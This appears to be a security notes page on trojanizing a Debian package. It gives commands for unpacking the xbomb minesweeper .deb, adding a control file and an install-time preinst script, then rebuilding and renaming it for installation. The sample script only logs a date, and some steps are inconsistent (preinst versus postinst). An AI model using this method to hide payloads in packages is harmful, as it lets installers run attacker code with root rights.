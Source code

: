 Refs:
* <https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/>
* <https://github.com/UndeadSec/Debinject>
* <https://fabianlee.org/2018/09/28/ubuntu-customizing-and-repacking-a-deb-file/>
* <http://www.securitytube.net/video/618>

```bash
# Download the .deb file in which you want to install the backdoor
$ sudo apt-get --download-only install xbomb

# Make a directory and copy .deb file into the newly created directory
$ mkdir /tmp/evil
$ sudo mv /var/cache/apt/archives/xbomb_2.2b-1build1_amd64.deb /tmp/evil
$ cd /tmp/evil/

# Extract the contents of .deb package into work directory
$ dpkg -x xbomb_2.2b-1build1_amd64.deb work

# MakeDEBIAN directory inside work directory
$ mkdir /tmp/evil/work/DEBIAN

# Create a control file inside the DEBIAN directory
:/tmpevil/work/DEBIAN$ cat control

cat control
Package: xbomb
Version: 2.2b-1
Section: Games and Amusement
Priority: optional
Architecture: i386
Maintainer: Ubuntu MOTU Developers (ubuntu-motu@lists.ubuntu.com)
Description: a text-based minesweeper
 xbomb is an implementation of the popular minesweeper game, where
 one tries to find all the mines without igniting any, based on hints given
 by the computer. Unlike most implementations of this game, Freesweep
 works in any visual text display - in Linux console, in an xterm, and in
 most text-based terminals currently in use.
```
In our DEBIAN directory, we’ll create a file named preinst that contains the following
```bash
:/tmp/evil/work/DEBIAN# cat preinst
#!/bin/sh

echo "ran preinst of ntp client at $(date)." >> /tmp/myntp.log
```
We’ll now make our pre-installation script executable and build our new package. 
The built file will be named work.deb so we will want to change that to xbomb.deb
```bash
:/tmp/evil/work/DEBIAN$ chmod 755 postinst
:/tmp/evil/work/DEBIAN$ dpkg-deb --build /tmp/evil/work
dpkg-deb: building package `xbomb' in `/tmp/evil/work.deb'.
:/tmp/evil$ mv work.deb xbomb.deb
```
Now, we can copy xbomb.deb to home folder and double click for installation

In order to uninstall the .deb file
```bash
$ sudo dpkg -P xbomb
```
